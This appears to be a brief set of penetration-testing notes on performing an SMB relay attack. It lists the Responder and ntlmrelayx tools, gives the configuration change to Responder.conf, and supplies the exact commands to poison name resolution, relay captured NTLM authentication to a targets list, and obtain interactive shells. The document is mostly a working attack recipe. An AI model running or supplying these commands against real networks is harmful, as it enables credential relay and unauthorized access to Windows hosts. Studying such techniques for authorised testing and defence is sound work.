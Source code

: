 ### Tooling
1. Responder
2. NTLMRelayx

### Preparation
To perform SMB relay attacks we need to disable SMB and HTTP on responder, to do this we navigate to `/etc/responder/Responder.conf` and change the following

```txt
SMB = Off
HTTP = Off
```
We can then run responder as follows
```sh
responder -I eth0 -rdwv 
```
We can then set up NTLM relay by doing the following
```sh
ntlmrelayx.py -tf targets.txt -smb2support
```
You can then head on to your PC and connect to a computer that does not exist in the network and look at the results on ntlmrelayx

### Getting interactive shells
With the same configuration above we can start our NTLM relay using the following
```sh
ntlmrelayx.py -tf targets.txt -smb2support -i
```
